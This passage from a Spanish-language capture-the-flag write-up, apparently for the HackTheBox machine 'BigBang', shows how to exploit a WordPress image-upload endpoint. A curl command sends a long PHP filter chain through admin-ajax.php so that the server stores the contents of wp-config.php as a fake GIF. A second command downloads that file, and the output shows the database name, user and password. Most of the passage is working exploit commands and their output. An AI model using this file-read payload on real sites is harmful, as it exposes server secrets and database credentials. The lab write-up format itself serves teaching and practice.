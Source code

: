 ~~~ bash
curl http://blog.bigbang.htb/wp-admin/admin-ajax.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'action=upload_image_from_url&id=1&accepted_files=image/gif&url=php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=../wp-config.php' 

{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1-30.png","attachment_id":185}
~~~

El servidor interpreta correctamente la solicitud, ahora deberíamos poder tener el contenido del archivo `wp-config.php` en la nueva "imagen"

~~~ bash
curl 'http://blog.bigbang.htb/wp-content/uploads/2025/05/1-30.png' -so wp-config.png

cat wp-config.png 

GIF89a<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don\'t have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/documentation/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wp_user' );

/** Database password */
define( 'DB_PASSWORD', 'wp_password' );
~~~
